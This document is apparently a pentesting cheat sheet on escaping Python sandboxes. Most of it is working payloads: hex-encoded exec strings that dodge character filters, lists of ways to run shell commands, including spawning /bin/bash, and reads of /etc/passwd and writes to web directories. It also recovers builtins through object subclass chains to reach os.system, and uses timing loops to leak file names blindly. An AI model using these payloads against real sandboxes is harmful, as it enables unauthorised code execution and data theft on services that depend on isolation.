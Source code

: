 # Bypass Python Sandbox

## Bypass forbidden characters

* We can encode forbidden characters in their encoded form. Here we used hex encoded as it works smoothly as compared to octal encoding.
* Target command
  * `exec("print('RCE'); __import__('os').system('ls')")`
* Updated command, after converting payload to octal
  * `exec("\x5bi for i in \x28)\x2e\x5f\x5fclass\x5f\x5f\x2e\x5f\x5fbases\x5f\x5f\x5b0]\x2e\x5f\x5fsubclasses\x5f\x5f\x28) if i\x2e\x5f\x5fname\x5f\x5f=='catch\x5fwarnings']\x5b0]\x28)\x2e\x5fmodule\x2e\x5f\x5fbuiltins\x5f\x5f")`

## Alternative.to commands

* You can perform a task in multiple ways, below is a list of all different ways used to perform the same action.

```python
### Command execution and file read ##########################
os.system("ls")
os.popen("ls").read()
commands.getstatusoutput("ls") 
commands.getoutput("ls")
commands.getstatus("file/path")
subprocess.call("ls", shell=True)
subprocess.Popen("ls", shell=True)
pty.spawn("ls")
pty.spawn("/bin/bash")
platform.popen("ls").read()
open("/etc/passwd").read()
open('/var/www/html/input', 'w').write('123')


### importing libraries ########################################
# 1
import os
from os import *
__import__('os').system("ls")

# 2
sys.modules["os"].system("ls")

#3 - python2
execfile('/usr/lib/python2.7/os.py')
system('ls')

```

## Python Builtins

### If Python builtins present

* In python version 2.7.18
  * `__builtin__` is a module that stores all built in functions.
  * Both `__builtin__` and `__builtins__` are exactly the same
  * You could print all built in functions using `dir(__builtin__)`
  * All functions except print will work normally, to execute print normally you need to first run `from __future__ import print_function`
* Examples
  * `import __builtin__`
    * Loading \_\_builtin\_\_ module
  * `__builtin__.len("hello")`
  * `__builtin__.range(1,20)`
  * `__builtin__.print("hello")`
  * `from __future__ import print_function`
  * `__builtin__.print("hello")`
  * `__builtin__.__dict__['__import__']("os").system("ls")`

![](../../.gitbook/assets/image%20%28138%29.png)

* Some more builtin
  * `__builtin__.__dict__['__import__']("os").system("ls")`

### If No builtin module : python2 present

* Restore builtin using its sub-modules
  * `__builtins__ = [x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__`
  * `__builtins__['__import__']('os').system('whoami')`



* other methods

```python
#Try to reload __builtins__
reload(__builtins__)
import __builtin__

# Read recovering <type 'file'> in offset 40
().__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()
# Write recovering <type 'file'> in offset 40
().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')

# Execute recovering __import__ (class 59s is <class 'warnings.catch_warnings'>)
().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']('os').system('ls')
# Execute (another method)
().__class__.__bases__[0].__subclasses__()[59].__init__.__getattribute__("func_globals")['linecache'].__dict__['os'].__dict__['system']('ls')
# Execute recovering eval symbol (class 59 is <class 'warnings.catch_warnings'>)
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]["eval"]("__import__('os').system('ls')")

# Or you could recover __builtins__ in make eveything easier
__builtins__=([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__)
__builtins__["__import__"]('os').system('ls')

# Or you could obtain the builtins from a defined function
get_flag.__globals__['__builtins__']['__import__']("os").system("ls")
```

### if No builtin module : python3

* `get_flag.__globals__['__builtins__'].__import__("os").system("ls")`

## Time Commands list

* Ref : [https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes\#executing-python-code](https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes#executing-python-code)

```text
# time.sleep
{}.__class__.__base__.__subclasses__()[59]()._module.__builtins__["__import__"]("time").sleep(100)

# You can also multiline the above command
i={}.__class__.__base__.__subclasses__()[59]()._module.__builtins__['__import__']
i('time').sleep(3)

# hex encode of some special chars of the above command (multiline)
i={}\x2e\x5f\x5fclass\x5f\x5f\x2e\x5f\x5fbase\x5f\x5f\x2e\x5f\x5fsubclasses\x5f\x5f\x28)\x5b59]\x28)\x2e\x5fmodule\x2e\x5f\x5fbuiltins\x5f\x5f\x5b'\x5f\x5fimport\x5f\x5f']\ni\x28'time')\x2esleep\x283)

# Command for system.sleep(100)
{}.__class__.__base__.__subclasses__()[59]()._module.__builtins__['__import__']('os').system('sleep 3')

```

## Restore builtins and execute OS command

```text

# Restore builtin
__builtins__=([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__)
__builtins__["__import__"]('os').system('ls')



### To execute + read output

# Print all available function in __builtins__
print(__builtins__)

# len()
size = __builtins__['len']('String len is 16')

# import os; os.popen('ls').read()
lsfiles = __builtins__['__import__']('os').popen('ls').read()

# python2 print current working directory os.getcwd()
cdir = lfiles = __builtins__['__import__']('os').getcwd()

# GUESS : Number of files in current directory < 30
for n in range(0,30):                                                  # This will be on attacker side
    print(" If program paused now, then number of files is : "+str(n)) # This will be on attacker side
    if __builtins__['__import__']('os').listdir(cdir).__len__()==n:
        __builtins__['__import__']('time').sleep(20)

# GUESS : File names len<20 given path and number of files
import string                                                # This will be on attacker side
char_set = string.ascii_letters + '0123456789' + '/-\n'      # This will be on attacker side
flag = 1
for file_index in range(0,ndir):                             # This will be on attacker side
    for char_index in range(0,20):                           # This will be on attacker side
        for ele in char_set:                                 # This will be on attacker side
            if __builtins__['__import__']('os').listdir(cdir)[file_index][char_index]==ele:
                # __builtins__['__import__']('time').sleep(20)                                 # Real command
                print(str(file_index) + "file name is : " + ele + "\n")                             # For simplicity of this.
                if(ele == '\n'):
                    flag=1
                    break
        if (flag ==1):
            break


```

![Number of files in current working directory](../../.gitbook/assets/image%20%28154%29.png)


